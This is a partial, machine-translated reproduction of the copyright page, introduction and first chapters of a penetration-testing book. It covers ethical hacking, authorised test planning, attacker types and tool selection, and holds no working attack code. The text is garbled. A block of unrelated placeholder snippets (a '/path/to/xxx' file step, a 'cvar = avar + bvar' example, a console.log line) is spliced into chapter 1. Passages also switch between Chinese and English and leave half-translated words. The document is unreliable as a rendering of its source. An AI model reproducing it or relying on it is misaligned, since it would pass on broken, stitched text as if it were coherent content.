# 
黑客入门指南


Published simultaneously in Canada

No part of this publication may be reproduced, stored in a retrieval system or transmitted in any form or by any means, electronic, mechanical, photocopying, recording, scanning or otherwise, except as permitted under Sections 107 or 108 of the 1976 United States Copyright Act, without the prior written permission of the Publisher. Requests to the Publisher for permission should be addressed to the Permissions Department, John Wiley & Sons, Inc., 111 River Street, Hoboken, NJ 07030, (201) 748-6011, fax (201) 748-6008, or online at [`http://www.wiley.com/go/permissions`](http://www.wiley.com/go/permissions).

Trademarks: Wiley, For Dummies, the Dummies Man logo, Dummies.com, Making Everything Easier, and related trade dress are trademarks or registered trademarks of John Wiley & Sons, Inc., and may not be used without written permission. All other trademarks are the property of their respective owners. John Wiley & Sons, Inc., is not associated with any product or vendor mentioned in this book.

LIMIT OF LIABILITY/DISCLAIMER OF WARRANTY: WHILE THE PUBLISHER AND AUTHOR HAVE USED THEIR BEST EFFORTS IN PREPARING THIS BOOK, THEY MAKE NO REPRESENTATIONS OR WARRANTIES WITH RESPECT TO THE ACCURACY OR COMPLETENESS OF THE CONTENTS OF THIS BOOK AND SPECIFICALLY DISCLAIM ANY IMPLIED WARRANTIES OF MERCHANTABILITY OR FITNESS FOR A PARTICULAR PURPOSE. NO WARRANTY MAY BE CREATED OR EXTENDED BY SALES REPRESENTATIVES OR WRITTEN SALES MATERIALS. THE ADVISE AND STRATEGIES CONTAINED HEREIN MAY NOT BE SUITABLE FOR YOUR SITUATION. YOU SHOULD CONSULT WITH A PROFESSIONAL WHERE APPROPRIATE. NEITHER THE PUBLISHER NOR THE AUTHOR SHALL BE LIABLE FOR DAMAGES ARISING HEREFROM.

For general information on our other products and services, please contact our Customer Care Department within the U.S. at 877-762-2974, outside the U.S. at 317-572-3993, or fax 317-572-4002. For technical support, please visit [`https://hub.wiley.com/community/support/dummies`](https://hub.wiley.com/community/support/dummies).

Wiley publishes in a variety of print and electronic formats and by print-on-demand. Some material included with standard print versions of this book may not be included in e-books or in print-on-demand. If this book refers to media such as a CD or DVD that is not included in the version you purchased, you may download this material at [`http://booksupport.wiley.com`](http://booksupport.wiley.com). For more information about Wiley products, visit [`www.wiley.com`](http://www.wiley.com).

Library of Congress Control Number: 2018944084

ISBN 978-1-119-48547-6 (pbk); ISBN 978-1-119-48554-4 (ebk); ISBN 978-1-119-48551-3 (ebk)


## Introduction

欢迎阅读《Hacking For Dummies, 6th Edition》。本书以通俗易懂的英文阐述了计算机入侵技巧和方法，帮助您评估信息系统的安全性，发现关键漏洞并在此恶意黑客和内部人员利用之前进行修复。这里的入侵是一种专业、合法、正规的安全测试，我称之为`ethical hacking`或`vulnerability and penetration testing`（全书统称为`vulnerability and penetration testing`）。

计算机和网络安全是一项复杂且不断变化的领域，您必须保持敏锐，确保信息免受坏人侵害。本书中阐述的技术和工具可以帮助您。

您可以实施所有可能的安全技术和最佳实践，使网络环境在您所知的范围内保持安全 — *据您所知*。但除非您理解恶意攻击者的思维方式，运用相应知识，并使用合适的工具从他们的视角评估系统，否则很难真正把握系统和信息的安全程度。

伦理入侵（或简称为安全评估）涵盖形式化和系统化的漏洞与渗透测试，是发现安全缺陷并持续验证信息系统真实安全性的必要手段。本书将为您提供成功实施安全评估程序、进行正确安全检查以及部署相应防护措施的知识，以防止外部黑客和恶意用户的侵害。

## About This Book

`Hacking For Dummies` 是一本关于通过入侵您的系统来提升安全、降低业务风险的参考指南。安全测试技术基于计算机系统渗透测试、漏洞测试以及信息安全最佳实践的书面与非书面规则。本书涵盖从制定测试计划到系统评估、补丁修复以及管理持续安全测试程序的全部内容。

现实而言，大多数网络、操作系统和应用程序都存在数千种可能的漏洞。我并未逐一涵盖全部，但我会针对各类平台和系统中我认为对当前企业安全问题贡献最大的主要漏洞进行介绍。我遵循帕累托原则（80/20 规则），旨在帮助您找出导致 80% 安全风险的 20% 关键问题。无论您是要评估小型家庭办公室网络、中型企业网络，还是大型企业系统的安全，`Hacking For Dummies` 都能提供所需信息。

本书包含以下特色：

*   各种技术性和非技术性测试及其详细的方法论。

*   针对入侵和泄露的具体防护措施。

在您开始对系统进行测试之前，请先熟悉 Part 1 的内容，以便为接下来的任务做好准备。著名的格言“If you fail to plan, you plan to fail”在安全评估过程中同样适用。只有制定稳固的作战计划，才能取得成功。

## Foolish Assumptions


[`***Disclaimer:***`] 这本书仅面向信息技术（IT）和安全专业人员，用于在授权范围内测试系统的安全性。如果您选择恶意使用本书中的信息对计算机系统进行黑客攻击或未经授权的入侵，您将自负后果。作者（本人）及与本书关联的任何人都不对您因使用本文中描述的方法和工具而做出的任何不道德或非法选择承担任何责任或义务。

好了，话不多说，进入正题！本书适合以下人员：系统管理员、信息安全经理、安全顾问、安全审计师、合规经理，或任何希望进一步了解如何评估计算机系统、软件以及 IT 运营以发现安全漏洞，并当然，实现长期改进的人员。

我也对您有一些假设：

*   您熟悉基本的计算机、网络和信息安全概念与术语。

*   您拥有使用这些技术和工具的计算机和网络。

*   您已获得雇主或客户的许可，以执行本书中描述的黑客技术。

## 本书中使用的图标

在本书的 margins（边距）中，您会看到以下图标。

`此图标标示值得记忆的信息。`

`此图标标示可能对您的漏洞和渗透测试工作产生负面影响的信息——请务必阅读！`

`此图标指向能够突出或阐明重要要点的建议。`

`此图标标示技术信息，这些信息虽有趣但对理解本讨论主题并非必不可少。`

## 书籍之外

首先，请务必查看本书附带的速查表。您可以通过访问 dummies.com 并搜索 Hacking For Dummies 来获取速查表。速查表是帮助您走上正确方向或在需要时重新回到安全测试计划正轨的好方法。

此外，请务必查看我的网站 [www.principlelogic.com](http://www.principlelogic.com)，尤其是“Resources”（资源）页面。

## 后续步骤

了解外部黑客和内部恶意人员的工作方式以及系统应如何测试，能更好地帮助您保护计算机和网络系统。本书为您提供构建和维护成功的安全评估与漏洞管理程序的基础，从而最小化业务风险。

根据您的计算机和网络配置，您可能可以跳过某些章节。例如，如果您未运行 Linux 或无线网络，可以跳过相应章节。但请注意，您可能认为自己不运行某些系统，但实际上它们可能在您的网络中某处等待被利用。

请记住，安全测试的高层次概念不会因具体漏洞的发现而频繁改变。漏洞和渗透测试始终是一门既是 *艺术* 也是 *科学* 的领域，因应不断变化的环境而不断演进。您必须跟上最新的硬件和软件技术，以及日复一日、月复一月出现的各种漏洞。

您不会找到单一的 *最佳* 黑客方式，因此请随心所欲地调整本信息，祝您玩得开心，Happy hacking！

## 第一部分

## 构建安全测试的基础

IN THIS PART …

*   了解漏洞和渗透测试的基础。

*   了解黑客的思维，以便理解他们为何以及如何行事。

*   制定安全测试计划。

*   理解寻找最（和最佳）漏洞的方法论。

## 章节 1

## 入门：漏洞和渗透测试

IN THIS CHAPTER

`了解黑客和恶意用户的目的`

`了解安全测试过程的由来`

`认识到威胁您计算机系统的因素`

`开始使用该流程进行安全测试`

本书致力于帮助您测试计算机和网络，发现安全漏洞并在此被恶意分子利用前进行修复。

## 梳理术语

大家都听说过黑客和恶意用户，甚至可能已经遭受过他们的非法行为。这些人是谁？您为何需要了解他们？接下来的几节将为您提供相关信息。

`在本书中，我使用以下术语：`

*   **`Hackers`**（或 *`外部攻击者`*）试图未经授权地 compromise 计算机、敏感信息，甚至整个网络以谋取不法利益——通常是从外部入侵。黑客会针对他们认为可以入侵的几乎所有系统。有些人偏好声望卓著、防护严密的系统，但入侵任何系统都能提升黑客在圈中的地位。

*   **`Malicious users`**（*`外部`* 或 *`内部`* 攻击者）试图从外部（如客户或业务合作伙伴）或内部（受信任且授权的用户）入侵计算机和敏感信息，动机可能是谋取不法利益或复仇，因为他们可能拥有系统访问权限或内部知识。

    总体而言，恶意攻击者既包括黑客也包括恶意用户。为了简化，我统称为 *`黑客`*，并在需要区分时才使用 *`黑客`* 或 *`恶意用户`* 来描述其独特的工具、技术和思维方式。

*   **`Ethical hackers`**（或 *`好人`*）会入侵系统以发现漏洞，从而防止未经授权的访问、滥用和误用。信息安全研究员、顾问以及内部员工属于此类。

### Hacker

*   *`Hacker`* 有两层含义：

    *   传统意义上，黑客喜欢对软件或电子系统进行玩耍。他们热衷于探索并学习计算机系统的工作原理，喜欢发现新的机械或电子工作方式。

    *   近年来，*`hacker`* 的含义逐渐转向：指那些恶意入侵系统以获取个人利益的人——技术上称为 *`crackers`*（恶意黑客）。Crackers 以恶意目的破解系统，追求名声、知识产权、利润或报复。他们篡改、删除、窃取关键信息，甚至使整个网络瘫痪，常常将大型企业和政府机构推向崩溃。

    `不要被流行文化和媒体对 *hack* 的误用所迷惑，从生活窍门到所谓的选举干预。营销人员、政治家和媒体策划者知道普通用户不理解 *hacking*，于是随意使用该词以实现自己的目的。请不要被误导。`

*   好人（白帽）黑客不喜欢被与坏人（黑帽）黑客归为一类。（如果您好奇，白帽和黑帽源自老式西部电视剧，白帽扮演好人，黑帽扮演坏人。）*`Gray-hat`* 黑客则兼具两者特点。无论如何，大多数人对 *`hacker`* 这个词都有负面联想。


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

Many malicious hackers claim that they don’t cause damage but help others for the greater good of society. Yeah, whatever. Malicious hackers are electronic miscreants and deserve the consequences of their actions.

Be careful not to confuse criminal hackers with security researchers. Researchers not only hack aboveboard and develop the amazing tools that we get to use in our work, but also (usually) take responsible steps to disclose their findings and publish their code.

### Malicious user

*A malicious user* — meaning a rogue employee, contractor, intern, or other user who abuses his or her trusted privileges — is a common term in security circles and in headlines about information breaches. The issue isn’t necessarily users hacking internal systems, but users who abuse the computer access privileges they’ve been given. Users ferret through critical database systems to glean sensitive information, email confidential client information to the competition or elsewhere to the cloud, or delete sensitive files from servers that they probably didn’t need to have access to in the first place.

Sometimes, an innocent (or ignorant) insider whose intent isn’t malicious still causes security problems by moving, deleting, or corrupting sensitive information. Even an innocent fat finger on the keyboard can have dire consequences in the business world. Think about all the ransomware infections affecting businesses around the world. All it takes is one click by a careless user for your entire network to be affected.

Malicious users are often the worst enemies of IT and information security professionals because they know exactly where to go to get the goods and don’t need to be computer-savvy to compromise sensitive information. These users have the access they need, and management trusts them — often without question.

What about that Edward Snowden guy — the former National Security Agency employee who ratted out his own employer? That subject is a complicated one. (I talk about hacker motivations in Chapter 2.) Regardless of what you think of Snowden, he abused his authority and violated the terms of his nondisclosure agreement. The same can be said of others who, for whatever reason, are placed on a pedestal because of their notoriety.

## Recognizing How Malicious Attackers Beget Ethical Hackers

You need protection from hacker shenanigans; you have to become as savvy as the guys who are trying to attack your systems. A true security assessment professional possesses the skills, mindset, and tools of a hacker but is trustworthy. He or she performs hacks as security tests against systems based on how hackers think and work.

`Ethical hacking` (otherwise known as vulnerability and penetration testing) involves the same tools, tricks, and techniques that criminal hackers use, with one major difference: It’s performed with the target’s permission in a professional setting. The intent of this testing is to discover vulnerabilities from a malicious attacker’s viewpoint to better secure systems. Vulnerability and penetration testing is part of an overall information risk management program that allows for ongoing security improvements. This security testing can also ensure that vendors’ claims about the security of their products are legitimate.

### Vulnerability and penetration testing versus auditing

Many people confuse security testing via vulnerability and penetration testing with security auditing, but *big* differences exist in the objectives. Security auditing involves comparing a company’s security policies (or compliance requirements) with what’s actually taking place. The intent of security auditing is to validate that security controls exist, typically by using a risk-based approach. Auditing often involves reviewing business processes and in some cases isn’t very technical. Security audits, in fact, can be as basic as security checklists that simply serve to meet a specific compliance requirement.

`Not all audits` are high-level, but many of the ones I’ve seen — especially those involving compliance with the Payment Card Industry Data Security Standard (PCI DSS) and the Health Insurance Portability and Accountability Act (HIPAA) — are quite simplistic. Often, these audits are performed by people who have no technical computer, network, or application experience — or, worse, work outside IT altogether!

Conversely, security assessments based on ethical hacking focus on vulnerabilities that can be exploited. This testing approach validates that security controls *don’t* exist or are ineffectual. This formal vulnerability and penetration testing can be both highly technical and nontechnical, and although it involves the use of formal methodology, it tends to be a bit less structured than formal auditing. Where auditing is required (such as for SSAE 16 SOC 1/2/3 audits and the ISO 27001 certification) in your organization, you might consider integrating the vulnerability and penetration testing techniques I outline in this book into your IT/security audit program. Auditing and vulnerability and penetration testing complement one another really well.

### Policy considerations

If you choose to make vulnerability and penetration testing an important part of your business’s information risk management program, you really need to have a documented security testing policy. Such a policy outlines who’s doing the testing, the general type of testing that’s performed, and how often the testing takes place. Specific procedures for carrying out your security tests could outline the methodologies I cover in this book. You might also consider creating a security standards document that outlines the specific security testing tools used and the specific people performing the testing. You could establish standard testing dates, such as once per quarter for external systems and biannual tests for internal systems — whatever works for your business.

### Compliance and regulatory concerns

Your own internal policies may dictate how management views security testing, but you also need to consider the state, federal, and international laws and regulations that affect your business. In particular, the Digital Millennium Copyright Act (DMCA) sends chills down the spines of legitimate researchers. See[`www.eff.org/issues/dmca`](http://www.eff.org/issues/dmca) for everything that the DMCA has to offer.

Many federal laws and regulations in the United States — such as HIPAA and the associated Health Information Technology for Economic and Clinical Health (HITECH) Act, Gramm-Leach-Bliley Act (GLBA), North American Electric Reliability Corporation (NERC) Critical Infrastructure Protection (CIP) requirements, and PCI DSS — require strong security controls and consistent security evaluations. Related international laws —such as the Canadian Personal Information Protection and Electronic Documents Act (PIPEDA), the European Union’s General Data Protection Regulation (GDPR), and Japan’s Personal Information Protection Act (JPIPA) — are no different. Incorporating your security tests into these compliance requirements is a great way to meet state and federal regulations and to beef up your overall information security and privacy program.

## Understanding the Need to Hack Your Own Systems

To catch a thief, you must think like a thief. That adage is the basis of vulnerability and penetration testing. Knowing your enemy is critical. The law of averages works against security. With the increased number of hackers and their expanding knowledge, and the growing number of system vulnerabilities and other unknowns, all computer systems and applications will eventually be hacked or compromised in some way. Protecting your systems from the bad guys — not just addressing general security best practices — is critical. When you know hacker tricks, you find out how vulnerable your systems really are.


黑客利用弱密码实践和未披露的漏洞进行攻击。越来越多的研究，例如年度《Verizon 数据泄露调查报告》([`www.verizonenterprise.com/verizon-insights-lab/dbir`](http://www.verizonenterprise.com/verizon-insights-lab/dbir))，显示长期存在的、已知的漏洞也在被攻击。防火墙、加密和其他花哨（且昂贵）的安全技术常常会产生一种虚假的安全感。这些安全系统通常关注高级别漏洞，例如访问控制和保护传输中的信息，而不影响攻击者的作战方式。主动测试自己的系统以发现漏洞——特别是那些会让许多人陷入麻烦的低悬挂果实——有助于提升系统安全性。漏洞和渗透测试是经过验证的方法，可极大加固系统免受攻击。如果不发现弱点，那么被利用的漏洞只是时间问题。

随着黑客知识的扩展，你也应该如此。你必须像他们一样思考，像他们一样行动，以保护系统免受他们的侵害。作为伦理黑客，你必须了解不法黑客所进行的活动，以及如何阻止他们的努力。知道要寻找什么以及如何利用这些信息，能够帮助你阻碍黑客的行动。

你不必保护系统免受*一切*威胁。你无法做到。唯一能防止一切的办法是拔掉计算机系统并将其锁在仓库中，让任何人都无法触碰——包括你自己。但这种做法并非最佳的安全措施，也绝对不利于业务！重要的是保护系统免受已知漏洞和常见攻击的侵害——即那 20% 的问题导致 80% 的风险，这些问题恰恰是大多数组织中被忽视的最薄弱环节。

预测系统和业务流程中所有可能的漏洞是不可能的。你当然无法规划所有类型的攻击——尤其是未知的攻击。但你尝试的组合越多，越频繁地测试整个系统而非单个组件，你发现影响整个信息系统的漏洞的机会就越大。

不过，切勿将安全测试做得过于极端；对不太可能（甚至*更不可能*）的攻击进行加固意义不大。

你的安全测试总体目标是：

*   将系统优先级排序，以便集中精力于最重要的部分。

*   在不破坏系统的方式下进行测试。

*   列举漏洞，必要时向管理层证明业务风险的存在。

*   将结果用于解决漏洞，进一步加固系统。

## 理解系统所面临的危险

仅仅知道全球黑客和内部恶意用户对系统发起攻击是一回事，另一回事是理解针对系统的具体潜在攻击。本节讨论一些知名攻击，但并非 exhaustive（全面）的列表。

许多安全漏洞本身并不致命，但同时利用多个漏洞会对系统或网络环境造成严重影响。默认的 Windows 操作系统配置、弱的 SQL Server 管理员密码，或在无线网络中运行的服务器，单独来看可能并不构成重大安全隐患。但如果有人同时利用这三项漏洞，可能会实现未经授权的远程访问并泄露敏感信息（以及其他问题）。

复杂性是安全的天敌。

由于虚拟化、云计算以及社交媒体的兴起，漏洞和攻击在近年来急剧增长。这三者本身就为环境带来不可估量的复杂性。

### 非技术性攻击

涉及操纵人类（终端用户甚至是你自己）的攻击是任何计算机或网络基础设施的最大漏洞。人类天生相信他人，这可能导致社会工程学攻击。*社会工程学*是利用人类的信任特性获取信息（常通过电子邮件钓鱼）以达成恶意目的。查看 第 6 章 可获取更多关于社会工程学及如何防护系统的信息。

其他常见且有效的信息系统攻击是物理攻击。黑客闯入建筑物、计算机室或其他存放关键信息或财产的区域，盗取电脑、服务器及其他贵重设备。物理攻击还包括 *dumpster diving*—— rummaging（翻找）垃圾桶或垃圾箱，以获取知识产权、密码、网络图、以及其他信息。

### 网络基础设施攻击

由于许多网络可以通过互联网从世界任何地方访问，针对网络基础设施的攻击往往容易实施。例如：

*   通过位于防火墙后的未受保护的无线接入点连接到网络。

*   利用网络协议漏洞，如文件传输协议（FTP）和安全套接层（SSL）。

*   向网络发送过多请求，导致合法请求出现拒绝服务（DoS）。

*   在网络段上安装网络分析仪，捕获所有经过的数据包，从而以明文形式暴露机密信息。

### 操作系统攻击

入侵操作系统是攻击者的首选方法。操作系统攻击占据大部分攻击比例，因为每台计算机都有操作系统，且容易受到多种已知漏洞的侵害，甚至有些漏洞多年未打补丁。

偶尔，一些出厂时已相对安全的操作系统——如老但仍在使用的 Novell NetWare、OpenBSD 和 IBM Series i——也会被攻击，并出现漏洞。但攻击者倾向于针对 Windows、Linux 和 Mac OS，因为它们使用更为广泛。

以下是操作系统攻击的示例：

*   利用缺失的安全补丁

*   攻击内置的认证系统

*   破坏文件系统安全

*   破解密码和弱加密实现

### 应用和其他专用攻击

应用程序是黑客攻击的主要目标。Web 应用和移动应用，这两者在业务环境中最为流行，常被攻击者击溃。例如，下面列出的应用攻击及相关利用经常出现在企业网络中：

*   Web 应用无处不在。由于所谓的 *shadow IT*（不同业务部门自行开发和管理技术），Web 应用遍布内部网络的各个角落以及云端。遗憾的是，许多 IT 和安全专业人员并不了解 shadow IT 的存在及其带来的风险。

*   移动应用在业务环境中使用日益增多，同时在应用商店中发现的恶意应用也带来了环境管理的挑战。

*   含有敏感信息的未保护文件散落在工作站和服务器共享中，也存储在 OneDrive、Google Drive 等云端存储位置。数据库系统同样包含众多可被恶意用户利用的漏洞。

## 遵循安全评估原则


安全专业人员必须对计算机系统、物理控制和人员进行与恶意黑客相同的攻击（我在前文中介绍了这些攻击）。安全专业人员的意图是突出任何相关的弱点。Parts 2 通过 5 章节详细说明如何进行这些攻击，并提供针对业务攻击的具体防护措施。

为确保安全测试得到充分且专业的执行，每位安全专业人员都需要遵循几条基本原则。下面的章节介绍了这些重要原则。

如果不遵循这些原则，可能会发生不好的事情。我在 IT 部门规划和执行安全测试时，看到它们被忽视或遗忘。结果并不理想；相信我。

### 伦理工作

在此语境下，*ethical*意味着以高尚的职业道德和价值观工作。无论你是对自己的系统进行安全测试，还是为他人进行测试，所有操作都必须公开透明，支持公司的目标，没有隐藏 agenda —  — 仅是职业操守。伦理还意味着无论结果是否会引发政治争议，都要如实报告所有发现。别笑；我曾多次目睹有人因为不想“搅乱船只”或面对难缠的高管或供应商而轻描淡写地忽视安全漏洞。

*Trustworthiness*（可信度）是最高的原则。它也是赢得并保持他人支持、推动安全计划的最佳方式。滥用信息和权力是绝对禁止的；这就是坏 guys（坏人）做的事，让他们因自己的糟糕选择付出代价或入狱。记住，你可以是伦理的但不可信任，反之亦然，正如爱德华·斯诺登（Edward Snowden）所展示的那样。这些复杂性是安全计划面临的整体挑战。我不因你面对的复杂性而感到羡慕。

### 尊重隐私

请以尊重的态度对待你收集的信息。你在测试过程中获得的所有信息 —  — 从 Web 应用漏洞、明文电子邮件密码、个人可识别信息（PII）乃至更多 —  — 必须保密。没有任何好处可以来自窥探公司机密信息或员工私人生活。

请让他人参与你的流程。使用同行评审或类似的监督机制，可以帮助建立信任并为你的安全评估项目争取支持。

### 不要导致系统崩溃

我在观察人们在测试自己的系统时犯的最大错误是不小心导致正在测试的系统崩溃。由于现代系统的弹性，系统崩溃已经不像以前那样频繁，但规划不当和时机选择不当仍可能产生负面影响。

在测试时，你可能会无意中制造出拒绝服务（DoS）条件。一次性运行过多测试会导致系统卡死、数据损坏、重启等问题，尤其是在测试老旧服务器和 Web 应用时。（我曾经做过！）不要假设网络或特定主机能够承受网络工具和漏洞扫描器所施加的“ beating ”。

你甚至可能因为使用漏洞扫描器或在未意识到后果的情况下 socially engineering 他人更改密码，而不小心导致账户或系统被锁定。请务必谨慎行事，运用常识。无论是你还是他人，这些弱点依然存在，最好先发现它们。

许多漏洞扫描器可以控制同一时间对每个系统执行的测试数量。这些设置在需要在正常工作时间内对生产系统进行测试时尤为有用。别害怕降低扫描速度。虽然完成测试会耗时更长，但适度降速可能会在存在不稳定系统时为你省下很多麻烦。

## 使用漏洞和渗透测试流程

与几乎所有 IT 或安全项目一样，你需要制定安全测试计划。人们常说“未经计划的行动是失败的根源”。在漏洞和渗透测试中，战略和战术问题必须事先确定并达成一致。为了确保你的努力取得成功，无论是针对几台服务器的简单操作系统密码破解测试，还是针对复杂 Web 环境的渗透测试，都应花时间进行充分的计划。

如果你决定在测试期间雇佣一位“改过”黑客，或聘请独立视角的安全专家，请务必谨慎。我在 第 19 章 中详细阐述了雇佣安全资源的利弊以及注意事项。

### 制定计划

获得安全测试的批准至关重要。确保你的工作被决策者所知晓并可见 —  — 至少要让关键相关方了解。项目赞助是第一步，它能明确测试目标。赞助方可能来自你的经理、高层管理、客户，甚至是你自己（如果你是老板）。你需要有人为你背书并签署计划。否则，测试可能会因有人（包括云服务提供商、托管提供商等第三方）声称你从未获得授权而被迫中止。更糟的是，你可能会被解雇，或面临刑事责任。

授权可以是一份内部备忘录，或在你在自己的系统上进行测试时，上级的电子邮件。如果你为客户进行测试，则需要一份签署的合同，明确客户的支持与授权。尽快获得书面批准，以确保你的时间和精力不会被浪费。这份文档就是你的“免于入狱”凭证 —  — 当 ISP、云服务提供商或相关供应商质疑你在做什么，或当当局上门时，它能让你立即证明自己拥有合法授权。别笑 —  — 这已经发生过不止一次。

一个失误可能导致系统崩溃，这并非任何人想要的结果。你需要一份详细的计划，但不必编写庞大的、让计划过于复杂的测试程序。一个明确的范围应包含以下信息：

*   **待测试的具体系统：** 在选择测试对象时，先从最关键的系统或进程，或是你怀疑最易受攻击的系统开始。你可以测试服务器操作系统密码、测试面向公众的 Web 应用，或在深入全系统之前，通过电子邮件钓鱼进行社会工程攻击。

*   **涉及的风险：** 在安全测试过程中制定应急预案，以防出现问题。例如，若你在评估防火墙或 Web 应用，并将其下线，可能导致系统不可用，进而影响性能或员工生产力。更严重的是，可能造成数据完整性丧失、数据丢失，甚至产生不良公 ity（舆论），让相关人员不满，使你形象受损。这些都会带来业务风险。

    请谨慎处理社交工程和 DoS（拒绝服务）攻击。确定它们可能如何影响你所测试的系统和人员。

*   **测试日期及整体时间表：** 确定测试何时进行是关键。决定是否在正常工作时间进行，还是在深夜或清晨进行，以避免影响生产系统。务必征求相关人员的意见，确保他们认可你的时间安排。


你可能会遭到抵制并受到拒绝服务（DoS）相关的后果，但最佳做法是进行无限制攻击，在任何时间、针对任何类型的测试均可进行。恶意分子并未在受限范围内入侵你的系统，所以你也无需如此。除此以外，还有一些例外情况：进行全面的 DoS 攻击、社会工程学攻击以及实物安全测试。

无论是否打算被检测到：你的目标之一可能是不被发现地进行测试。你可能会在远程系统或远程办公环境中进行测试，而不希望用户知晓你的活动。否则，用户或 IT 人员可能会察觉到你的行为，并改变自己的正常行为。

是否保留安全控制：一个重要但常被忽视的问题在于是否保留安全控制，例如防火墙、入侵防御系统（IPSes）和 web 应用防火墙（WAFs），以便它们能够阻止扫描和利用尝试。保留这些控制提供了真实世界的视图，显示当前的安全状况。但我发现 *much* 更大的价值在于禁用这些控制（或将你的 IP 地址加入白名单），从而可以撕开帘子，发现更多的漏洞。

许多人希望保留安全控制。毕竟，这种做法能让他们在安全检查中表现更好，因为很多检查很可能会被阻止。然而，在我看来，这种分层防御的做法虽然很好，但可能会产生严重的安全感假象，并且不能完整反映组织的整体安全态势。

在进行测试前对系统的了解：你不需要对正在测试的系统拥有深入知识，只需具备基本理解即可，这既保护你也保护被测试的系统。如果你在内部系统上进行测试，理解系统不应是一件困难的事。如果你在客户系统上进行测试，可能需要更深入地挖掘。事实上，只有极少数客户会要求进行完全盲测评估。

许多 IT 经理和其他负责安全的人员对盲测评估感到恐惧，因为这可能耗时更长、成本更高，且效果不一定更好。应根据组织或客户的需求选择测试的类型。

发现重大漏洞后的行动：不要在发现一个或两个安全漏洞后就停止；继续寻找，看看还能发现什么。我并不是说你要一直测试到天长地久或直到所有系统崩溃（这显然没有人有时间做到）。相反，只要你还能继续“黑客攻击”（字面意义），就坚持沿着这条路走。如果你没有发现任何漏洞，说明你还没有 sufficiently 深入搜索。漏洞是存在的。如果你发现了重大问题，需要尽快向关键相关方（开发人员、数据库管理员、IT 经理等）通报，以便尽快修补，防止被利用。

具体的交付物：交付物包括漏洞扫描报告以及你自己精简的报告，列出重要漏洞、推荐措施以及实施对策。

### 选择工具

正如任何项目一样，如果没有合适的工具进行安全测试，你将难以有效完成任务。但仅使用合适的工具并不意味着一定能发现所有正确的漏洞，经验也很重要。

了解工具的局限性。许多漏洞扫描器会产生误报和漏报（错误识别漏洞），或会漏掉某些漏洞。在某些情境下（如测试 Web 应用），需要运行多个漏洞扫描器才能发现全部漏洞。

许多工具专注于特定测试，没有一款工具能覆盖所有情况。正如你不会用螺丝刀敲钉子一样，也不要用端口扫描器来寻找特定的网络漏洞。你需要一套针对特定任务的工具。工具越多、越好，你的安全测试工作就会越轻松。

确保你使用以下类型的工具：

- 破解密码：需要像 `Ophcrack` 和 `Proactive Password Auditor` 这类破解工具。
- 深入分析 Web 应用：应使用 Web 漏洞扫描器（如 `Netsparker` 或 `Acunetix Web Vulnerability Scanner`），而不是网络分析仪（如 `Wireshark` 或 `Omnipeek`）。

许多安全/黑客工具的功能被误解，这种误解让本应受到好评的工具声名狼藉，甚至有些政府机构在讨论将它们列为非法。误解的原因之一是某些安全测试工具的复杂性。无论你使用哪些工具，务必在使用前熟悉它们。这样，你就能按照工具的预期用法来使用它们。下面是实现方式：

- 阅读 readme 文件和/或在线帮助文档及常见问题（FAQ）。
- 研读用户指南。
- 在实验室或测试环境中使用工具。
- 观看 YouTube 教程视频（尽管大多数的制作质量并不高）。
- 考虑向安全工具供应商或第三方培训机构报名正式课堂培训（如果有的话）。

在选择安全测试工具时，应关注以下特征：

- 文档完备、说明清晰。
- 能够提供详细的漏洞报告，包括利用方式和修复方法。
- 获得行业广泛认可。
- 有定期更新，技术支持响应及时。
- 能生成面向管理层或非技术人员的高层次报告（在当今审计和合规驱动的环境中尤为重要）。

这些特点在执行测试并编写最终报告时能节省大量时间和精力。

### 执行计划

良好的安全测试需要持久的毅力。时间和耐心至关重要。同时，在进行测试时要小心谨慎。网络上的恶意分子或看似无害的员工可能会窥探你的活动，并利用这些信息对你或你的业务造成伤害。

在开始测试前确认系统上没有黑客并不现实。只要保持一切安静、私密，尤其是在传输和存储测试结果时，就足够了。如果可能，加密任何包含敏感测试信息的邮件和文件，或通过云端文件共享服务进行共享。

你正在进行侦察任务。获取关于你的组织和系统的尽可能多的信息，就像恶意黑客那样。先从宽泛的视角出发，再逐步聚焦。按照以下步骤进行：

1. 在 Internet 上搜索你的组织名称、计算机和网络系统名称以及 IP 地址。

   Google 是个很好的起点。

2. 缩小范围，针对正在测试的具体系统。

   无论是评估实物安全结构还是 Web 应用，轻度评估都能获取大量关于系统的信息。

3. 进一步缩小焦点，通过扫描和其他详细测试来发现系统中的漏洞。

4. 进行攻击，利用你发现的漏洞（如果你选择这样做）。

   请参阅 第 4 章 和 第 5 章 获取更多信息和技巧。

### 评估结果


评估你的结果，看看你已经发现了什么，假设在此时为止漏洞并未被明显暴露。知识很重要。你评估结果和关联所发现的具体漏洞的技巧会随着实践而变得更好。你将比任何人都更深入地了解你的系统，这将使后续的评估过程变得更加简便。

向管理层或客户提交正式报告，阐述你的结果和需要分享的任何建议。保持这些方的知情，以展示你的努力和他们的金钱花费得当。Chapter 17 描述了安全评估报告的流程。

### Moving on

当你完成安全测试后，你（或客户）仍需实施我的建议，以确保系统安全。否则，所有在测试上投入的时间、金钱和精力都将白费。遗憾的是，我常常看到这种情况。

新的安全漏洞不断出现。信息系统变得更加复杂。新的安全漏洞和利用被不断发现。漏洞扫描工具不断进步。安全测试提供系统安全状态的快照。任何时候，一切都可能改变，尤其是在你升级软件、添加计算机系统或应用补丁后。这种情况凸显了需要经常更新工具的必要性 —  — 如果可能的话，在每次使用前都更新。计划定期且持续地测试（比如每月、每季度或半年一次）。Chapter 19 介绍了在前进过程中管理安全变更的方法。

Chapter 2

## Cracking the Hacker Mindset

IN THIS CHAPTER

`Understanding the enemy`

`Profiling hackers and malicious users`

`Understanding why attackers do what they do`

`Examining how attackers go about their business`

在你开始评估系统安全之前，先了解一下你面对的对手是有益的。许多安全产品供应商和安全专业人士声称，你应该保护所有系统免受坏人（内部和外部）的侵害。但这到底意味着什么？你如何了解这些人思考和执行攻击的方式？

了解黑客和恶意用户的目的，有助于你理解他们是如何工作的。了解他们的工作方式，有助于你以全新的视角审视你的信息系统。本章中，我描述了你从实际从事恶意行为的人所面临的挑战，以及他们的动机和手段。这种理解将更好地为你的安全测试做准备。

## What You’re Up Against

